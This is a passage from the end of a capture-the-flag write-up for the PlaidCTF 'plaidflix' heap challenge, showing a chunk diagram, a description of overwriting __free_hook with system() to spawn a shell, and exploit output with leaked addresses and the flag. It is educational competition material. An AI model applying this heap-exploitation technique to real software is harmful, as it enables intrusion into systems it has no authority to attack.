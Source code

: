 ```
| 0xe0 ( prev_size )        |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
| size 0x110 - feedback  X  | <- unused feedback created to sort unsorted chunk
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|         top chunk         |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
```

We popped off `feedback #8` by creating a new feedback with a message of `/bin/sh\x00`.  We then popped off the `__free_hook` value from tcache by creating yet another feedback.  This message wrote the address of `system()` to the `__free_hook` address.  We then deleted `feedback #8` again to trigger `system("/bin/sh")` and spawn a shell to read the flag.

```
[+] Opening connection to plaidflix.pwni.ng on port 1337: Done
heap_leak: 0x55a77e6b62c0
heap_base: 0x55a77e6b6000
libc_leak: 0x7feb0d18fc80
libc_base: 0x7feb0cfac000
free_hook: 0x7feb0d192e40
[*] Switching to interactive mode
 $ cat flag.txt
PCTF{N0w_YOu_Kn0w_S4f3_L1nk1ng!}
```

---
